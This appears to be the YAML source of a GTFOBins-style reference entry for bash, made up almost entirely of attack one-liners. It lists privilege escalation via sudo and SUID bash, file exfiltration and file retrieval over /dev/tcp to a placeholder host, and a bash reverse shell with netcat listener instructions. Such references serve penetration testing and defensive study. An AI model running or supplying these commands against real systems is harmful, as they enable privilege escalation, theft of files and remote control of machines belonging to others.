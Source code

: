 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` to send the file from the other end.
      code: |-
        RHOST=10.0.0.1
        RPORT=12345
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
---
```

